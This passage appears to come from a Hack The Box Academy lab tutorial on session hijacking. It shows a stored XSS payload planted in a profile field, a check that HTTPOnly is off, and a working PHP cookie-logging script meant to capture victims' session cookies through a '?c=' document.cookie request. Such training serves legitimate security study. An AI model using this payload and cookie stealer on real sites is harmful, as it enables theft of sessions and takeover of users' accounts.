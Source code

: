 Code: javascript

```javascript
"><img src=x onerror=alert(1)>
```

We will need to update the profile by pressing "Save" to submit our payloads.

![image](https://academy.hackthebox.com/storage/modules/153/21.png)

The profile was updated successfully. We notice no payload being triggered, though! Often, the payload code is not going to be called/executed until another application functionality triggers it. Let us go to "Share," as it is the only other functionality we have, to see if any of the submitted payloads are retrieved in there. This functionality returns a publicly accessible profile. Identifying a stored XSS vulnerability in such a functionality would be ideal from an attacker's perspective.

That is indeed the case! The payload specified in the _Country_ field fired!

![image](https://academy.hackthebox.com/storage/modules/153/22.png)

Let us now check if _HTTPOnly_ is "off" using Web Developer Tools.

![image](https://academy.hackthebox.com/storage/modules/153/23.png)

_HTTPOnly_ is off!

***

### Obtaining session cookies through XSS

We identified that we could create and share publicly accessible profiles that contain our specified XSS payloads.

Let us create a cookie-logging script (save it as `log.php`) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. The below PHP script can be hosted on a VPS or your attacking machine (depending on egress restrictions).

Code: php

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

This script waits for anyone to request `?c=+document.cookie`, and it will then parse the included cookie.

The cookie-logging script can be run as follows. `TUN Adapter IP` is the `tun` interface's IP of either Pwnbox or your own VM.
